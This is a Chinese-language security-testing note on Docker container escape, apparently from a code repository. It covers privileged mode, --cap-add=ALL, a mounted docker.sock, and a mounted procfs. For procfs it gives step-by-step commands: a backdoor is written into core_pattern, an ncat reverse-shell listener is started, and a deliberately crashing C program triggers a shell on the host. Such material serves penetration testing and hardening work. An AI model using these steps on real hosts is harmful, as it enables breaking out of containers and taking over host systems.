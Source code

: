 # 容器逃逸

目前接触的一种是容器OS内核或云技术组件漏洞导致的逃逸，这一类型实际上是NDAY漏洞的利用；另一种是不安全配置导致的漏洞，这一类型主要是因为在业务或管理平面开放或配置了过多的能力导致

## 已知漏洞逃逸



## 不安全配置导致的逃逸

对于一个对外开放的创建容器的能力在设计开发时应该慎之又慎，对于用户可以填充的启动参数应该使用白名单的设计机制，让用户无法通过恶意挂载、恶意配置来创建一个可以逃逸的容器。同时，如果有提供一个初始容器，应该注意其配置于挂载的文件，避免出现因不安全配置/挂载导致的逃逸问题。

### --privileged：特权模式运行容器

原始命令：`docker run --privileged`

当一个容器以特权模式运行时，其能够访问宿主机上的所有设备，可以通过挂载宿主机磁盘等手段获取宿主机的权限（这个权限应该是与docker运行用户的权限一致的）。

**测试思路：**对于一个提供容器能力的平台，其自然不会直接运行一个以特权模式运行的容器，通常来讲，我们需要寻找平台上开放的容器运行参数配置的相关能力及接口；特权模式能够在yaml或conf文件中配置，或者在封装的接口中也会提供对应的能力，我们需要注意开发是否将相关的能力屏蔽（仅仅前端隐藏是不够的）；假设一个容器平台没有将对应的能力限制，那么我们可以运行一个特权模式的容器，通过恶意挂载来访问宿主机的敏感文件，达到容器逃逸的效果。

### --cap-add=ALL：为容器添加所有特权

原始命令：`docker run --cap-add=ALL`

这个命令实际上是和特权模式运行容器的效果是一致的，但是其不如特权模式的缺陷而广为人知，在特权模式受到限制时，可以尝试这个命令是否也受到限制。

### 挂载Docker  Socket的情况

关键步骤：`在容器内挂载/var/run/docker.sock`

当Docker Socket被挂载到容器内时，我们通过在容器内安装docker命令行客户端，即可通过该客户端于docker进程通信；这时只需在原容器内通过docker命令创建一个新容器并挂载宿主机根目录，再通过新容器切换到挂载的宿主机根目录里，即可实现逃逸。理论上来讲，当我们能够通过命令行创建新容器时，就已经逃逸了。

### 挂载procfs的情况

背景：procfs是一个伪文件系统，它动态反映系统内进程及其他组件的状态，包含许多敏感、重要文件。

前提：容器内默认启用root权限、没有开启User Namespace

该情况的关键在于/proc/sys/kernel/core_pattern从内核2.6.19版本开始，支持程序或脚本运行，只需使首个字符为管道符“|”。那么假设procfs被我们挂载到了容器里面，并且此时我们容器的root权限为真实root权限，我们通过在core_pattern中注入后门代码，在容器内写好反弹shell，并运行一个会崩溃的程序即可触发宿主机的反弹shell

> 开启了user namespace的root权限是虚假的，可以通过以下步骤检查，如果出现文件链接则说明开启了user namespace：
>
> 进入/proc/目录
>
> $cd /proc/
>
> 查看当前目录下有哪些文件或目录
>
> $ls
>
> 随便进入一个以数字（进程号）命名的目录，比如1
>
> $cd 1
>
> 查看ns（Namespace）目录下的内容
>
> $ls -al ns

**步骤一：植入后门。**`echo -e "| /tmp/.x.py \rcore    " > /proc/sys/kernrl/core_pattern`

需要注意的是该tmp目录为容器目录，我们需要修改为宿主机的绝对路径，可通过`cat /proc/mounts | grep docker`获取容器的绝对工作路径，`${工作路径}/../merged`即为容器的根路径，作为上方tmp目录的前缀即可注入。

**步骤二：在容器内创建反弹shell。**在容器内的/tmp.x.py文件写入反弹shell，并在攻击机器上启动监听：`ncat -lvnp $port`

**步骤三：在容器内运行可以崩溃的程序。**示例代码如下：

```c++
#include <stdio.h>

int main(void){

int *a = NULL;

*a = 1;

return 0;}
```

